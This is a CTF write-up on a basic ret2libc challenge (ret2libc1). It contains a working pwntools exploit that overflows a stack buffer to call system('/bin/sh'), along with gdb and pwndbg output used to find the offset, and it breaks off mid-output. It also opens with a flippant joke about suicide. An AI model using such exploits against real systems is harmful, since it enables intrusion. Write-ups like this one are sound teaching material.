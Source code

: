 ```yaml
---
title: "PWN BasicROP - Ret2Libc"
tags: ['CTF', 'Pwn']
authors: [nova]

---
```


# Basic ROP - Ret2libc

After some painful reflections, failing to solve a few problems in a row, and receiving some guidance from zbr, I decided to commit suicide.

Enough. 

<!--truncate-->

## ret2libc1

Check the protections, no Canary and no PIE, 32-bit ELF.

![image](https://cdn.ova.moe/img/image-20211212102309182.png)

In the string list, you can see both `system` and `/bin/sh`.

![image](https://cdn.ova.moe/img/image-20211212102632678.png)

Simply construct a function to overwrite the return address.

```python
from pwn import *

context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

sh = process("./ret2libc1")
elf = ELF("./ret2libc1")

system_addr = 0x8048460  # plt
# system_addr = elf.plt["system"]  # it works as well
binsh_addr = 0x08048720
sh.recvuntil(b"RET2LIBC >_<\n")

payload = b'A'*(0x6c+0x04) + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)
sh.sendline(payload)
sh.interactive()
```

Some key points:

- The address of `system` should be taken from the PLT table, not the one seen in the string. Refer to PLT / GOT - Dynamic Linking.

- In this challenge, in IDA you can see `char s[100]; // [esp+1Ch] [ebp-64h] BYREF`, which indicates that the distance from ebp is `0x64 bytes`, but in reality it is `0x6c bytes`.

  - Here's the solution provided by Mark:

    ![image](https://cdn.ova.moe/img/image-20211212105927823.png)

  - How to calculate the offset? Here are two methods using gdb and pwndbg:

    - gdb

      - Find the address of `call _gets`, you can see that `s` is right above it.

      ![image](https://cdn.ova.moe/img/image-20211212110511113.png)

      - Set a breakpoint at `0x0804867B`

        ```shell
        gdb ./ret2libc
        b *0x0804867E
        r
        ```

        ```shell
        Breakpoint 2, 0x0804867e in main () at ret2libc1.c:27
        27	in ret2libc1.c
        LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
        ──────────────────────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────────────────────
         EAX  0xffffcf3c ◂— 0x0
         EBX  0x0
         ECX  0xffffffff
         EDX  0xffffffff
         EDI  0xf7fb4000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
         ESI  0xf7fb4000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
         EBP  0xffffcfa8 ◂— 0x0
         ESP  0xffffcf20 —▸ 0xffffcf3c ◂— 0x0
        *EIP  0x804867e (main+102) —▸ 0xfffdade8 ◂— 0xfffdade8
        ────────────────────────────────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────────────────────────────
           0x804867b <main+99>              mov    dword ptr [esp], eax
         ► 0x804867e <main+102>             call   gets@plt                     <gets@plt>
                arg[0]: 0xffffcf3c ◂— 0x0
                arg[1]: 0x0
                arg[2]: 0x1
                arg[3]: 0x0
         
           0x8048683 <main+107>             mov    eax, 0
           0x8048688 <main+112>             leave  
           0x8048689 <main+113>             ret    
         
           0x804868a                        nop    
           0x804868c                        nop    
           0x804868e                        nop    
           0x8048690 <__libc_csu_init>      push   ebp
           0x8048691 <__libc_csu_init+1>    push   edi
           0x8048692 <__libc_csu_init+2>    xor    edi, edi
        ────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────
        00:0000│ esp 0xffffcf20 —▸ 0xffffcf3c ◂— 0x0
        01:0004│     0xffffcf24 ◂— 0x0
        02:0008│     0xffffcf28 ◂— 0x1
        03:000c│     0xffffcf2c ◂— 0x0
        ... ↓        2 skipped
        06:0018│     0xffffcf38 —▸ 0xf7ffd000 ◂— 0x2bf24
        07:001c│ eax 0xffffcf3c ◂— 0x0
        ──────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────
         ► f 0 0x804867e main+102
           f 1 0xf7de7ee5 __libc_start_main+245
           f 2 0x80484f1 _start+33
        ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
        ```

        From the `[REGISTERS]` section, we can see that the address of `s` is `0xffffcf3c`, and the offset from ESP address `0xffffcf20` is `0x1c`, which is consistent with what we saw in IDA. Additionally, note the EBP address `0xffffcfa8`, and by simple addition and subtraction, we can calculate the offset between EBP and ESP as `0x88`, which means the offset between EBP and `s` is `0x6c`, contradicting what we see in IDA that it is `[ebp-64h]`.

    - pwndbg

      I am currently not familiar with this method. I will check the pwndbg documents later.

      - First, generate some junk characters

        ```shell
        pwndbg> cyclic 200
        aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
        ```

      - Run the program again and input the generated junk characters

        ```shell
        pwndbg> r
        Starting program: /home/nova/Desktop/CTF/ctf-wiki/ret2libc/ret2libc1 
        RET2LIBC >_<   
        aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
        
        Program received signal SIGSEGV, Segmentation fault.
        0x62616164 in ?? ()
        LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
        ─────────────────────────────────────────────────────────────────

<!-- AI -->
